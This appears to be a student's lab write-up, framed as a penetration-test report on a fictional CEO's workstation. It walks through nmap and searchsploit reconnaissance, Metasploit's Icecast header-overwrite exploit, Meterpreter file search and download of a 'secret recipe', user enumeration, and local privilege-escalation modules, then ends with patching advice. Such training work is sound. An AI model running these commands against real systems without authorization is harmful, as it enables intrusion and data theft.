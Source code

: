 # Penetration_Test_Engagement

In this activity, I played the role of an independent penetration tester hired by "GoodCorp Inc." to perform security tests against their CEO's workstation.

## GoodSecurity Penetration Report

JosephMossman@GoodSecurity.com

[Report Deliverable](Resources/Report.docx)

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

**Machine IP:**

192.168.0.20

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

Icecast Header Overwrite

![Icecast_Vulnerability](Screenshots/search_icecast_command.png)

**Vulnerability Explanation:**
 
The Icecast Header Overwrite vulnerability running on 192.168.0.20 Host allows a buffer overflow exploit that lets an attacker system gain remote control of the victim system by overwriting the memory on the system. The exploit writes past the end of a pointer array when receiving 32 HTTP headers. This allowed for a variety of remote actions, such as file discovery and download, key logging, screen capture, and privilege escalation to Administrator.

**Severity:**

The severity of this vulnerability is High, with a CVSS score of 7.5.

**Proof of Concept:**

Perform a service and version scan using Nmap to determine which services are up and running:

- Run the Nmap command that performs a service and version scan against the target.

   > **Answer:** nmap -sV 192.168.0.20

   ![nmap](Screenshots/nmap_command.png)

From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

- Run the SearchSploit commands to show available Icecast exploits.

   > **Answer:** searchsploit icecast

   ![searchsploit_icecast](Screenshots/searchsploit_icecast_command.png)

Now that we know which exploits are available to us, let's start Metasploit:

- Run the command that starts Metasploit:

   > **Answer:** msfconsole

   ![msfconsole](Screenshots/msfconsole_command.png)
 
Search for the Icecast module and load it for use.

- Run the command to search for the Icecast module:

   > **Answer:** search icecast

   ![search_icecast](Screenshots/search_icecast_command.png)
 
- Run the command to use the Icecast module:

   > **Answer:** use 0

   ![use](Screenshots/use_0_command.png)
 
- Run the command that sets the RHOST:

   > **Answer:** set RHOST 192.168.0.20

   ![RHOST](Screenshots/use_rhost_command.png)
 
- Run the command that runs the Icecast exploit.

   > **Answer:** exploit

   ![exploit](Screenshots/exploit_command.png)
 
You should now have a Meterpreter session open.

- Run the command that performs a search for the secretfile.txt on the target.

   > **Answer:** search -f *secretfile*.txt

   ![secretfile](Screenshots/secretfile_command.png)

- Run the command to performs a search for the recipe.txt on the target:

   > **Answer:** search -f *recipe*.txt

   ![recipe](Screenshots/recipe_command.png)

- Run the command that ex-filtrates the recipe*.txt file:

   > **Answer:** download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’

   ![exfiltrate](Screenshots/exfiltrate_recipe_command.png)

- Verify that you have successfully downloaded the file.

   > **Verification:**

   ![verification](Screenshots/verify_drinks.png) 

You can also use Meterpreter's local exploit suggester to find possible exploits.

- Run the command to use Meterpreter’s local exploit suggester.

  > **Answer:** run post/multi/recon/local_exploit_suggester

  ![exploit_suggestor](Screenshots/exfiltrate_recipe_command.png)

- Run a Meterpreter post script that enumerates all logged on users.

   > **Answer:** run post/windows/gather/enum_logged_on_users

  ![enum_users](Screenshots/logged_on_users_command.png)

- Run the command to open a Meterpreter shell and gather system information for the target.

   > **Answer:** shell

   ![shell](Screenshots/shell_command.png)

- Run the command that displays the target's computer system information:

   > **Answer:** systeminfo

   ![systeminfo](Screenshots/systeminfo_command.png)

### Separate findings for each vulnerability can be found below:

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ikeext_service

**Vulnerability Explanation:**

The ikeext_service vulnerability utilizes a missing Dynamic-link library (DLL) in Microsoft’s operating system that runs as SYSTEM and starts automatically in default installations of select windows operating systems. This vulnerability can be used for privilege escalation under the SYSTEM account. It requires an insecure bin path to plant the DLL payload.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.0.

**Proof of Concept:** 

![ikeext_proof](Screenshots/ikeext_vulnerability.png)

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ms16_075_reflection

**Vulnerability Explanation:**

The ms16_075_relfection vulnerability utilizes a reflection link between Distributed Component Object Model (DCOM) and Remote procedure call (RPC) that allows local users to use a crafted application to gain a SYSTEM handle for privilege escalation. The module does not start as SYSTEM by default. Once gaining a shell SYSTEM impersonation is possible.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.9.

**Proof of Concept:** 

![ms16_proof](Screenshots/ms16_075_reflection_vulnerability.png)

### 3.0 Recommendations

The Icecast Header Overflow exploit is an older vulnerability that can be fixed with a current patch. It is recommended to update to the latest version of Icecast, found here: https://icecast.org/download/

Other technical recommendations would be to encrypt all sensitive data and enable firewall rules to only allow traffic on needed ports. 
